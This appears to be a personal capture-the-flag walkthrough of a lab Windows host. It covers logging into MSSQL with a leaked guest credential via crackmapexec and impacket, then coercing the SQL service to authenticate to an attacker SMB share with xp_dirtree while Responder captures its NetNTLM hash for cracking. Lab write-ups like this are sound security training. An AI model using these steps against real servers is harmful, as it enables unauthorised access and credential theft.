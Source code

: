 
![[Pasted image 20241216204654.png]]
Nothing helpful.

Try connecting to mssql and winrm (fails)

`cme mssql 10.10.11.202 -u 'PublicUser' -p 'GuestUserCanWrite1'`

![[Pasted image 20241216205701.png]]
There are two types of authentication for microsoft sql so trying other method `--local-auth`

`cme mssql 10.10.11.202 --local-auth -u 'PublicUser' -p 'GuestUserCanWrite1'`

![[Pasted image 20241216205928.png]]
So these creds will log us in. 

Add `-L` to list modules available 

`cme mssql 10.10.11.202 --local-auth -u 'PublicUser' -p 'GuestUserCanWrite1' -L`

![[Pasted image 20241216210044.png]]
Trying out `mssql_priv` module 

`cme mssql 10.10.11.202 --local-auth -u 'PublicUser' -p 'GuestUserCanWrite1' -M mssql_priv

No more info..so module failed?
![[Pasted image 20241216210229.png]]
Using #impacket `mssqlclient.py`

`mssqlclient.py publicuser:GuestUserCantWritel@sequel.htb

This werks! whoop

![[Pasted image 20241216210546.png]]
run `help` to get list of commands 

`xp_cmdshell whoami` - don't have perms to run this

![[Pasted image 20241216210708.png]]

trying to enable perms with `enable_xp_cmdshell` - didn't work

![[Pasted image 20241216210814.png]]

Use `xp_dirtree` to request a file off an smb share in order to intercept the hash of the user running mssql 

Using `xp_dirtree` to mount a fake share and starting up responder over the vpn interface. 

`xp_dirtree \\10.10.14.8\fake\share`

`sudo responder -I tun0`
![[Pasted image 20241216211148.png]]
Andd got the sql service cred. 

![[Pasted image 20241216211319.png]]
Crack this hash using #hashcat 

